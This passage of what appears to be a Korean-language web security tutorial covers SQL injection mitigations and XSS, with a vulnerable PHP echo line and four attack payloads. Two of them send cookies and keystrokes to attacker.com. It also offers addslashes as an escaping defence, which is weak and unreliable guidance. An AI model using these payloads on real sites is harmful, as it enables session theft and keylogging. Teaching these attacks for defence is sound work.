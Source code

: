 #### 2. 입력값 검증 및 이스케이프
```php
// 입력값 이스케이프
$username = addslashes($_GET['username']);
// 또는 PDO::quote() 사용
$username = $pdo->quote($_GET['username']);
```

#### 3. 최소 권한 원칙
- 데이터베이스 사용자에게 필요한 최소한의 권한만 부여
- 민감한 시스템 테이블에 대한 접근 제한

---

## 2. Cross-Site Scripting (XSS)

### 취약점 개요
XSS는 웹 애플리케이션이 사용자 입력을 적절히 필터링하지 않고 브라우저에 출력할 때 발생하는 취약점입니다.

### 취약한 코드 예제
```php
// xss.php:86 - 취약한 코드
echo $entry['message']; // 사용자 입력을 필터링 없이 출력
```

### 공격 시나리오

#### 시나리오 1: 기본 스크립트 실행
**공격 입력**: `<script>alert('XSS 공격 성공!');</script>`
**결과**: 페이지 로드 시 경고창이 표시됩니다.

#### 시나리오 2: 이미지 태그를 이용한 우회
**공격 입력**: `<img src="x" onerror="alert('XSS via img tag')">`
**결과**: 존재하지 않는 이미지로 인해 onerror 이벤트가 발생하여 스크립트가 실행됩니다.

#### 시나리오 3: 쿠키 탈취 공격
**공격 입력**: 
```javascript
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
```
**결과**: 사용자의 쿠키 정보가 공격자의 서버로 전송됩니다.

#### 시나리오 4: 키로거 삽입
**공격 입력**:
```javascript
<script>
document.addEventListener('keypress', function(e) {
    fetch('http://attacker.com/keylog.php?key=' + e.key);
});
</script>
```
**결과**: 사용자의 키 입력이 공격자에게 전송됩니다.
